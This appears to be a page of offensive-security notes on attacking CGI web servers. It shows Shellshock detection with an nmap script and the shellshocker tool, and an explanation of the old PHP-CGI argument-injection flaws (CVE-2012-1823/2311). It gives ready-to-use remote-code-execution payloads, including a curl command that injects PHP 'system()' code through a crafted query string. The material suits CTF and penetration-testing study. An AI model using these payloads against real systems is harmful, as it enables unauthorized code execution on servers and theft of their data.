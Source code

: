 # CGI

## ShellShock

{% embed url="https://wixnic.gitbook.io/hacknotes/common-exploits/shellshock" %}

{% embed url="https://github.com/erinzm/shellshocker" %}

Nmap:

```
nmap 10.10.10.10 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

Shellshocker example:

```
python shellshocker.py http://10.10.10.10/cgi-bin/admin.cgi
```

## Old PHP + CGI = RCE (CVE-2012-1823, CVE-2012-2311)

{% embed url="https://wixnic.gitbook.io/hacknotes/common-exploits/php-cgi-exploitation" %}

Basically if cgi is active and php is "old" (<5.3.12 / < 5.4.2) you can execute code.\
In order to exploit this vulnerability, you need to access some PHP files of the web server without sending parameters (especially without sending the character "=").\


Then, in order to test this vulnerability, you could access for example `/index.php?-s` (note the `-s`) and the **source code of the application will appear in the response**.

Then, in order to obtain **RCE** you can send this special query: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` and the **PHP code** to be executed in the **body of the request.**

****\
**Example:**

```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://10.10.10.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

****
